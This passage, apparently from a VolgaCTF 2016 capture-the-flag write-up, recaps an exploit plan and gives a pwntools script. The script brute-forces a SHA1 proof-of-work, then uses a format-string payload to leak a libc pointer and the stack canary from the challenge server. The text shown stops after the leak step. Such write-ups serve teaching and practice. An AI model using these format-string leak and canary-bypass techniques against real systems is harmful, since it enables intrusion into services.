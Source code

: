 We see the check of the canary and then the return.

# Creation of the overall payload

To recap what we have to do:

* resolve the SHA1 challenge
* create a paper with just an abstract containing string formats
* leak a libc pointer and the stack canary
* inject the payload
* choose the option 5 to exit

This gives us the following script:
{% highlight python %}
#!/usr/bin/env python2

from itertools import permutations
from time import sleep
from hashlib import sha1
from pwn import *

HOST = 'webofscience3.2016.volgactf.ru'
PORT = 45680
libc_offset = 3934688

context.arch='amd64'

def bruteforce(req):
    p = log.progress('Bruteforcing the SHA1')
    for i in permutations(range(0, 256), 5):
        test = req + ''.join(chr(c) for c in i)
        s = sha1(test)
        if s.digest()[-3:] == '\xff\xff\xff':
            p.success('found: ' + test)
            return test

r = remote(HOST, PORT)

data = r.recv()

req = data.split('=')[6].strip('\n')
found_sha = bruteforce(req)
r.sendline(found_sha)
# add a paper
r.sendline('1')
# add an abstract
r.sendline('3')
r.sendline('|%2$p|%19$p|')
# save & quit
r.sendline('9')
# view paper
r.sendline('4')
r.sendline('0')
data = r.recvuntil('Tags:')
data = data.split('|')
libc_ptr = int(data[1], 16)
canary = int(data[2], 16)
log.info('leaked libc ptr:  0x{:x}'.format(libc_ptr))
log.info('leaked canary:    0x{:x}'.format(canary))
libc_base = libc_ptr - libc_offset


[perm]: https://docs.python.org/2/library/itertools.html#itertools.permutations